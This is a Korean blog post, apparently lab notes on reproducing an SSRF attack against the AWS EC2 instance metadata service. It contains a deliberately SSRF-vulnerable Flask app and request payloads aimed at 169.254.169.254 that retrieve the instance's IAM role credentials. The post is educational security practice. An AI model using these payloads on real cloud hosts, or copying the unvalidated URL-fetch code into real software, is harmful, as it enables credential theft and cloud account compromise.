 ```yaml
---
title: AWS Instance Meta-data SSRF
date: 2023-12-04
author: glasses96
categories: [WEB]
tags: [AWS, SSRF]
pin: true
math: true
mermaid: true
---
```


> **[AWS-SSRF](https://core-research-team.github.io/2022-11-01/AWS-Instance-Meta-data-SSRF-to-RCE)를 읽고 실습해봅시다.**  
> **RCE 까진 안해봤고 SSRF 까지만 따라 해봤습니다.** 
{: .prompt-info }

## Get AWS EC2 Meta-data 

AWS의 EC2 Instance Meta-data는 실행 중인 Instance를 구성 또는 관리하는 데 사용될 수 있는 Instance 관련 데이터입니다.

대부분의 AWS EC2 Instance Meta-data는 http://169.254.169.254를 통해 접근할 수 있습니다. 
-> 여기에는 IP 주소, 보안 그룹 이름 등과 같은 Instance에 대한 유용한 정보가 포함됩니다.

EC2 instance에 IAM Role을 할당되게 된다면, 이 Role이 갖게 되는 권한을 Instance Meta-data를 통해 획득할 수 있습니다.


## Pratice

### Example Code

예제 코드는 단순히 url 변수를 받아 urlopen으로 url을 읽어 그결과를 보여줍니다.  
SSRF에 취약합니다.

```py
from flask import Flask, request
import urllib
from urllib import parse

app = Flask(__name__)

@app.route("/", methods=["GET"])
def route():
    url = request.args.get("url")

    if url:
        try:
            req = urllib.request.Request(url)
            with urllib.request.urlopen(req) as response:
                data = response.read()
        except:
            return "Error"
        return data
    else:
        return "Require URL parameter."

app.run(host='0.0.0.0', port=5001)

```

### Access Meta-data 
SSRF 공격이 가능할 때 `url=http://169.254.169.254/latest/meta-data` 을 넣게 되면 아래와 같이 `meta-data`에 접근할 수 있습니다.
![meta-data](/assets/post/49/1.png)  

만약 iam 디렉토리가 없다면, Instance에 IAM Role을 할당했는지 확인해야합니다.

### Check Assigned IAM Role
`url=http://169.254.169.254/latest/meta-data/iam/security-credentials/` 를 통해 IAM Role 확인이 가능합니다.

![IAM-ROLE](/assets/post/49/2.png)

### Obtain IAM Credentials
`url=http://169.254.169.254/latest/meta-data/iam/security-credentials/hzone_role` 를 통해 IAM 자격증명을 얻을 수 있습니다.


![get-credentials](/assets/post/49/3.png)

## Reference
- https://core-research-team.github.io/2022-11-01/AWS-Instance-Meta-data-SSRF-to-RCE